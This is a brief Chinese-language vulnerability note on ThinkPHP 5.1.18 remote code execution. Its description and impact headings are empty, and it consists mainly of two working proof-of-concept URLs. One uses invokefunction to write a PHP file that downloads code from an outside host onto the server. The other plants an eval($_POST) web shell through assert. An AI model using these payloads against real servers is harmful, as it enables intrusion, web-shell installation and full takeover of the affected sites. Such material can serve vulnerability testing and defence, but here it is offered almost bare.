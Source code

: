 # Thinkphp 5.1.18

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

1、常规poc


```
http://www.xxxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index_bak2.php',file_get_contents('https://www.hack.com/xxx.js'));?>
```

2、所有目录都无写入权限,base64函数被拦截


```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_POST[1])
```